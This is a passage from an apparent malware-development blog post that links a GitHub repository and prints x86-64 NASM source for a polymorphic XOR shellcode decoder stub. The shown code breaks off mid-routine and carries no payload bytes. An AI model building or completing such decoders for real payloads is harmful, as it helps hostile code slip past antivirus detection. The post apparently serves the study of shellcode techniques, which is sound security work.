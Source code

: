 <figure class="kg-card kg-bookmark-card kg-card-hascaption"><a class="kg-bookmark-container" href="https://github.com/rbctee/MalwareDevelopment/blob/master/code/shellcode/unix/x86-64/execve_shellcode_stack_polymorphic.nasm"><div class="kg-bookmark-content"><div class="kg-bookmark-title">MalwareDevelopment/execve_shellcode_stack_polymorphic.nasm at master · rbctee/MalwareDevelopment</div><div class="kg-bookmark-description">Code and notes regarding Malware Development. Contribute to rbctee/MalwareDevelopment development by creating an account on GitHub.</div><div class="kg-bookmark-metadata"><img class="kg-bookmark-icon" src="https://github.com/fluidicon.png" alt=""><span class="kg-bookmark-author">GitHub</span><span class="kg-bookmark-publisher">rbctee</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://opengraph.githubassets.com/f37090b96514c0f09652c023e218f231b6612d080630f05accc9c7879297aba8/rbctee/MalwareDevelopment" alt=""></div></a><figcaption class="figure-caption">Polymorphic shellcode used for generating the decoder</figcaption>

Here's the full source code of the decoder program:

```nasm
; Author: Robert C. Raducioiu

global _start

section .text

_start:

    ; clear RCX
    xor ecx, ecx

    jmp short CallShellcode

Shellcode:

    ; get the address of the encoded shellcode using
    ; the JMP-CALL-POP technique
    pop rsi
    
    ; statically set the size of the shellcode
    add cl, 80

    ; save the base address of the shellcode in RDX
    push rsi
    pop rdx

    ; push to the stack for later use
    push rdx

    ; skip the next routine
    jmp short LoopDecodeSkip

LoopDecode:

    ; increase registers to step to the next chunk
    add rsi, 8
    add rdx, 7

LoopDecodeSkip:

    ; clear RAX
    xor eax, eax

    ; get the XOR byte of the chunk and XOR it
    ; with the XOR byte generated initially
    mov bl, BYTE [rsi]
    xor bl, 0xc

CopyDecodedByte:

    ; step to the next encoded byte
    add al, 1

    ; decode the encoded byte
    mov bh, BYTE [rsi + rax]
    xor bh, bl

    ; replace the encoded byte with the decoded one
    mov BYTE [rdx + rax], bh
```